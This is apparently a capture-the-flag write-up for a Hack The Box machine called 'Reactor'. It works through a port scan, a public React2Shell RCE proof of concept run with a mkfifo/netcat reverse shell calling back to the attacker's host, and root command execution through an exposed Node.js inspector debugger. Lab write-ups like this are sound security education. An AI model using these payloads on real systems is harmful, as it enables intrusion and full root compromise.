


Reactor... Starting off with the initial port scan results only two open ports (`22`, `3000`). Accessing the port `3000` over web directs to a cool looking webpage with the Analytics of an actual reactor. Further enumeration about the versions of the site confirmed it is vulnerable to `RCE`.  Exploiting the vulnerability and grabbing a reverse shell from the compromised target landed me as user  `node`. Analyzing the processes running, there is an interesting debugging process running as **Root** (I urge you to find it out), understanding how it functions led me to an unintended way to grab the flags!

# Recon

## Port Scan

Nmap scan with `-sC` for default script scan `-sV` for service version `-oA` flag for output in all formats (.nmap, .gnmap, .xml) and finally `-v` to print the open ports as the scan discovers, results ports `22`,`3000` open.

<div class="scroll-code" style="--code-height:500px">

```zsh  collapse={7-39}
0xz1nn ✦ ~/Documents/htb
❯ nmap -sC -sV -Pn -oA nmap $target -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-03 04:23 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 04:23
Completed NSE at 04:23, 0.00s elapsed
Initiating NSE at 04:23
Completed NSE at 04:23, 0.00s elapsed
Initiating NSE at 04:23
Completed NSE at 04:23, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 04:23
Completed Parallel DNS resolution of 1 host. at 04:23, 0.50s elapsed
Initiating SYN Stealth Scan at 04:23
Scanning 10.129.54.203 [1000 ports]
Discovered open port 22/tcp on 10.129.54.203
Increasing send delay for 10.129.54.203 from 0 to 5 due to 49 out of 163 dropped probes since last increase.
Discovered open port 3000/tcp on 10.129.54.203
Increasing send delay for 10.129.54.203 from 5 to 10 due to 123 out of 409 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 10 to 20 due to 11 out of 15 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 20 to 40 due to 11 out of 14 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 40 to 80 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 80 to 160 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.129.54.203 from 640 to 1000 due to 11 out of 12 dropped probes since last increase.
Stats: 0:03:34 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 91.17% done; ETC: 04:27 (0:00:21 remaining)
Completed SYN Stealth Scan at 04:33, 621.38s elapsed (1000 total ports)
Initiating Service scan at 04:33
Scanning 2 services on 10.129.54.203
Completed Service scan at 04:33, 5.01s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.54.203.
Initiating NSE at 04:33
Completed NSE at 04:33, 5.88s elapsed
Initiating NSE at 04:33
Completed NSE at 04:33, 0.00s elapsed
Initiating NSE at 04:33
Completed NSE at 04:33, 0.00s elapsed
Nmap scan report for 10.129.54.203
Host is up (0.52s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
22/tcp    open     tcpwrapped
| ssh-hostkey:
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp  open     tcpwrapped
45100/tcp filtered unknown

NSE: Script Post-scanning.
Initiating NSE at 04:33
Completed NSE at 04:33, 0.00s elapsed
Initiating NSE at 04:33
Completed NSE at 04:33, 0.00s elapsed
Initiating NSE at 04:33
Completed NSE at 04:33, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 633.20 seconds
           Raw packets sent: 1866 (82.104KB) | Rcvd: 178084 (40.671MB)
```

<div>

## Reactorwatch - port 3000

I was looking at the UI of this site (which is cool), my gaze fallen onto the **ReactorWatch Core Monitoring System** `v3.2.1`.


# CVE-2025-55182

 Searching for publicly discovered vulnerabilities of the target with `v3.2.1`....there comes in the **React2Shell** with RCE vulnerability, PoC repo [here](https://github.com/jensnesten/React2Shell-PoC.git).

## Exploit **→** Shell

I was ready with my listener, then tried to get reverse shell with `Bash`, `nc` , `sh` which were failed (I don't have any reason), but the **mkfifo** never disappointed me.

```zsh wrap=false
0xz1nn ✦ ~/Documents/htb/reactor/React2Shell-PoC
❯ python3 main.py http://10.129.54.203:3000 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.214 443 >/tmp/f'
[*] Connecting to 10.129.54.203:3000 (http)
[*] Sending payload with command: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.214 443 >/tmp/f
[*] Response received, parsing output...
[+] Command output:
1224254375
```

## Shell

I use **rlwrap**ped `nc` to have the history of the previously used  command with `↑`  `↓` arrows.

```zsh wrap=false
0xz1nn ✦ ~/Documents/htb/reactor/React2Shell-PoC
❯ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.54.203] 53816
sh: 0: can't access tty; job control turned off
$
```

use the below command to get the properly spawned **TTY**.

```zsh wrap=false
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Target Environment Enumeration

After landing as **node**, I tried enumerating for quick wins (as this is an easy rated box).

I tried for:

- sudo permission rules (`sudo -l`)
- SUID bit set (`find / -perm -u=s -type f 2>/dev/null`)
- Capabilities (`getcap -r / 2>/dev/null`)
- Crontabs (`find /etc/cron* -writable 2>/dev/null`)

also enumerated the target environment variable, but nothing was really useful.

## Listening Ports

The chances to find something valuable were drowning as I was failing with different techniques. But when I peeked into the listening ports on the target,

```zsh wrap=false
node@reactor:/opt/reactor-app$ ss -lntup
ss -lntup
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
udp   UNCONN 0      0         127.0.0.54:53        0.0.0.0:*
udp   UNCONN 0      0      127.0.0.53%lo:53        0.0.0.0:*
udp   UNCONN 0      0            0.0.0.0:68        0.0.0.0:*
tcp   LISTEN 0      511        127.0.0.1:9229      0.0.0.0:*
tcp   LISTEN 0      4096      127.0.0.54:53        0.0.0.0:*
tcp   LISTEN 0      4096         0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*
tcp   LISTEN 0      511                *:3000            *:*    users:(("next-server (v1",pid=1418,fd=18))
tcp   LISTEN 0      4096            [::]:22           [::]:*
node@reactor:/opt/reactor-app$

```

Did you notice? there is an unusual port listening on the local host **:-)**

when I curled it,

```zsh wrap=false
node@reactor:/tmp$ curl http://127.0.0.1:9229
curl http://127.0.0.1:9229
WebSockets request was expected
node@reactor:/tmp$ 
```

at this point I had no clue what I was doing.

## Running Processes

The choice, my intent was hinting is to look into the running processes.
Looking closely into the result I have found,
 
an interesting  process which is running as root.

But did you notice this part?

```zsh wrap=false
/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

the  `--inspect` flag for a node process is used to activate the debugger, and here only `127.0.0.1:9229` is given access to manage the process running by `worker.js`.

# Root & User flags (unintended)

## Endpoint discovery

After getting `WebSockets request was expected` (at 127.0.0.1:9229 ) , I tried again to see if there is an endpoint resting in the background.

```zsh wrap=false
node@reactor:/opt/reactor-app$ curl http://127.0.0.1:9229
curl http://127.0.0.1:9229
WebSockets request was expected
node@reactor:/opt/reactor-app$ curl http://127.0.0.1:9229/json
curl http://127.0.0.1:9229/json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/f8dd1f90-a891-4bed-8011-8a87e92fe1b1",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/f8dd1f90-a891-4bed-8011-8a87e92fe1b1",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "f8dd1f90-a891-4bed-8011-8a87e92fe1b1",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/f8dd1f90-a891-4bed-8011-8a87e92fe1b1"
} ]
```

Indeed, there is....We can interact with the endpoint using the debugger interactively.

## Abusing the Debugger

I exploited the **root process** with the built-in  **node debugger CLI**  to run the commands on the target with root privileges to pull both the flags.

Connected to the debugger CLI.

```zsh wrap=false
node@reactor:/opt/reactor-app$ node inspect 127.0.0.1:9229
node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug> 
```

### Command Execution

The below command can be used to legitimately execute code into the process

```zsh wrap=false
exeexec('global.process.mainModule.require("child_process").execSync("<your sauce goes here>").toString()')
```

### Flags

```zsh wrap=false
debug> exeexec('global.process.mainModule.require("child_process").execSync("cat /root/root.txt").toString()')
exec('global.process.mainModule.require("child_process").execSync("cat /root/root.txt").toString()')
'2a41****26e1****b118****09e8****\n'
debug> exeexec('global.process.mainModule.require("child_process").execSync("cat /home/engineer/user.txt").toString()')
exec('global.process.mainModule.require("child_process").execSync("cat /home/engineer/user.txt").toString()')
'863d****8ad6****0b69****4a00****\n'
debug>
```
